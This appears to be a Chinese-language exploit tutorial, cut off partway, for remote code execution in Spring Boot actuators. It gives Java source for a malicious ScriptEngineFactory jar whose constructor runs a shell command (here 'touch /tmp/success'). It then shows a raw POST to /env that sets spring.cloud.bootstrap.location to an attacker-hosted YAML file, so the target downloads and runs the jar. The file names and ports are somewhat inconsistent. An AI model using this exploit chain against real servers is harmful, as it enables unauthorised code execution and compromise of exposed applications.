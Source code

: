 ## 0x00 yaml_payload.jar 制造

代码 `https://github.com/artsploit/yaml-payload`

![](./jar.png)

AwesomeScriptEngineFactory.java 部分代码
```
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("touch /tmp/success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
  `ymal_payload.jar\artsploit\AwesomeScriptEngineFactory.java `

包含实际的字节码，并在构造函数中带有恶意有效载荷。

  `ymal_payload.jar\services\javax.script.ScriptEngineFactory`

只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，
以便ServiceLoader知道在哪里可以找到该类

内容：`artsploit.AwesomeScriptEngineFactory`

jar 文件存在到http服务器中

http://10.20.24.191:8090/ymal_payload.jar

## 0x01 Set spring.cloud.bootstrap.location

`spring.cloud.bootstrap.location=http://10.20.24.191:8090/yaml_payload.yml`

![](./location.png)
```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

spring.cloud.bootstrap.location=http://10.20.24.191:8000/yaml_payload.yml
```
